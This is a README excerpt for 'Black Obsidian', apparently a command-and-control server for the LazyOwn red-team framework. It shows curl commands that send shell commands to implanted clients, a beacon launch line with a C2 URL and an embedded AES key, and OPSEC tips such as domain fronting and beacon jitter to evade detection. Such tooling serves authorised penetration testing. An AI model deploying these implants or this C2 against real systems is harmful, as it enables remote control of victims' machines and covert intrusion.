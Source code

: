 ## 📝 Usage Examples

### Issue Command

```bash
python3  app.py 
```
or manual

```bash
curl -k -X POST https://127.0.0.1:4444/issue_command \
  -d "client_id=linux_go&command=whoami" \
  -H "Authorization: Bearer YOUR_TOKEN"
```
Get Connected Clients
```bash
curl -k -X GET https://127.0.0.1:4444/get_connected_clients \
  -H "Authorization: Bearer YOUR_TOKEN"
```
## 📚 Integration with LazyOwn Ecosystem
Black Obsidian is designed to work with LazyOwn implants:

```bash
# Example: Black Sand Beacon (Linux)
./black-sand-beacon \
  --c2=https://127.0.0.1:4444 \
  --client-id=linux_go \
  --aes-key=18547a9428b62fdf2ba11cebc786bccbca8a941748d3acf4aad100ac65d0477f
```
## 🛡️ OPSEC Recommendations
Use VPN/Proxy for C2 infrastructure

Rotate AES keys periodically

Enable firewall rules to restrict access

Use domain fronting for HTTPS traffic

Implement jitter in beacon callbacks

Monitor logs for anomalies

## 🤝 Contributing
Contributions welcome! Please:

Fork the repository

Create feature branch (git checkout -b feature/AmazingFeature)

Commit changes (git commit -m 'Add AmazingFeature')

Push branch (git push origin feature/AmazingFeature)

Open Pull Request
